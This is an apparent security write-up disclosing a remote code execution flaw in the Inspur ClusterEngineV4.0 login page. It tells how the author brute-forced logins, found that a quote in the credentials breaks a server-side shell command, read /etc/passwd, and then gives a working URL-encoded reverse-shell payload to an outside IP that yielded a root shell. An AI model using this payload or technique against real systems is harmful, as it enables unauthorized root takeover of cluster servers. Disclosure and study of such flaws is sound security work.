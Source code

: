 # Inspur ClusterEngineV4.0 Remote Code Execution

# 0x01 Description

Today, i found a`Inspur Server Cluster Management System` in our intranet, which login page looks like that.

![1573267238057](img/1573267238057.png)

It doesn't have verification code, so i decide to crack a login account.

![1573267410033](img/1573267410033.png)



when burpsuite crack down, i noticed if post data has `;'`, the response packet is abnormal.

![1573267472820](img/1573267472820.png)

At now, I realize that there may be a remote code execution, and I put this packet in repeater to repeat it, I found if there is a `'` in post data, the system will throw an exception.

![1573267667895](img/1573267667895.png)

![1573267621779](img/1573267621779.png)

When I further tested, I found that either the username parameter or the password parameter contains `'`, an exception will be thrown.

![1573267874260](img/1573267874260.png)

So I decided to try send `' '`  to see the response packet.

![1573267904173](img/1573267904173.png)

I noticed `grep` command error,  may be server code like 
```shell
var1 = `grep xxxx`
var2 = $(python -c "from crypt import crypt;print crypt('$passwd','$1$$var1')")
```

So i try to send `-V` and `--help` to see response packet,  the response packet confirmed my guess.

![1573268170355](img/1573268170355.png)

![1573268245311](img/1573268245311.png)

Try to read `/etc/passwd`

![1573268332873](img/1573268332873.png)

Try to list the directories

![1573268361127](img/1573268361127.png)



# 0x02 Pwned

Now, I confirmed there is a remote code execution that i found, after fuzz, I got the following payload

`whoami`

![1573268530852](img/1573268530852.png)

`uname`

![1573268555327](img/1573268555327.png)

`revershell`

```
op=login&username=1 2\',\'1\'\);  `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

When i send payload, i get a `root shell` on my `kali linux`server

![1573268596272](img/1573268596272.png)

![1573267093372](img/1573267093372.png)
